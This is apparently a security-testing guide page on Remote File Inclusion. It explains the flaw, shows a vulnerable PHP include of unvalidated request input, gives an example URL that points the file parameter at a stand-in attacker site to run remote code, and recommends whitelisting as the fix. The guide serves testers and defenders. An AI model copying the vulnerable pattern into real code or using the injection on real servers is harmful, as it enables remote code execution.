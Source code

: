 # Testing for Remote File Inclusion


## Summary

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.


This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

*Code execution on the web server
*Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS)
*Denial of Service (DoS)
*Sensitive Information Disclosure


**Remote File Inclusion** (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing external URL to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.


## How to Test

Since RFI occurs when paths passed to "include" statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:
```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```


In this example the path is extracted from the HTTP request and no input validation is done (for example, by checking the input against a white list), so this snippet of code results vulnerable to this type of attack. Consider infact the following URL:

```
http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
```


In this case the remote file is going to be included and any code contained in it is going to be run by the server.


## References

**Whitepapers**
* “Remote File Inclusion” - http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion
* Wikipedia: "Remote File Inclusion" - http://en.wikipedia.org/wiki/Remote_File_Inclusion


## Remediation

The most effective solution to eliminate file inclusion vulnerabilities is to avoid passing user-submitted input to any filesystem/framework API. If this is not possible the application can maintain a white list of files, that may be included by the page, and then use an identifier (for example the index number) to access to the selected file. Any request containing an invalid identifier has to be rejected, in this way there is no attack surface for malicious users to manipulate the path.
